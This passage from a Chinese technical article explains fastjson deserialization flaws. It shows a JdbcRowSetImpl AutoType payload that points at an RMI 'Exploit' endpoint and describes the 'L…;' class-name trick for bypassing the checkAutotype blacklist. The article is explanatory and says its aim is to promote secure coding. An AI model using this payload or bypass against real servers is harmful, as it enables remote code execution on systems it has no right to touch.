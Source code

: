 

```plain
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```



**这就是所谓的远程命令执行漏洞，即利用漏洞入侵到目标服务器，通过服务器执行命令。**



在早期的fastjson版本中（v1.2.25 之前），因为AutoType是默认开启的，并且也没有什么限制，可以说是裸着的。



从v1.2.25开始，fastjson默认关闭了autotype支持，并且加入了checkAutotype，加入了黑名单+白名单来防御autotype开启的情况。



但是，也是从这个时候开始，黑客和fastjson作者之间的博弈就开始了。



因为fastjson默认关闭了autotype支持，并且做了黑白名单的校验，所以攻击方向就转变成了"如何绕过checkAutotype"。



下面就来细数一下各个版本的fastjson中存在的漏洞以及攻击原理，**由于篇幅限制，这里并不会讲解的特别细节，如果大家感兴趣我后面可以单独写一篇文章讲讲细节**。下面的内容主要是提供一些思路，目的是说明写代码的时候注意安全性的重要性。



#### 绕过checkAutotype，黑客与fastjson的博弈


在fastjson v1.2.41 之前，在checkAutotype的代码中，会先进行黑白名单的过滤，如果要反序列化的类不在黑白名单中，那么才会对目标类进行反序列化。



但是在加载的过程中，fastjson有一段特殊的处理，那就是在具体加载类的时候会去掉className前后的`L`和`;`，形如`Lcom.lang.Thread;`。



![15938462506312.jpg](./img/2n7LpVjFxU-z8f8n/1741334590055-22d6998c-1775-4451-956c-5efc3204e8e5-376195.jpeg)￼



而黑白名单又是通过startWith检测的，那么黑客只要在自己想要使用的攻击类库前后加上`L`和`;`就可以绕过黑白名单的检查了，也不耽误被fastjson正常加载。



如`Lcom.sun.rowset.JdbcRowSetImpl;`，会先通过白名单校验，然后fastjson在加载类的时候会去掉前后的`L`和`;变成了`com.sun.rowset.JdbcRowSetImpl`。

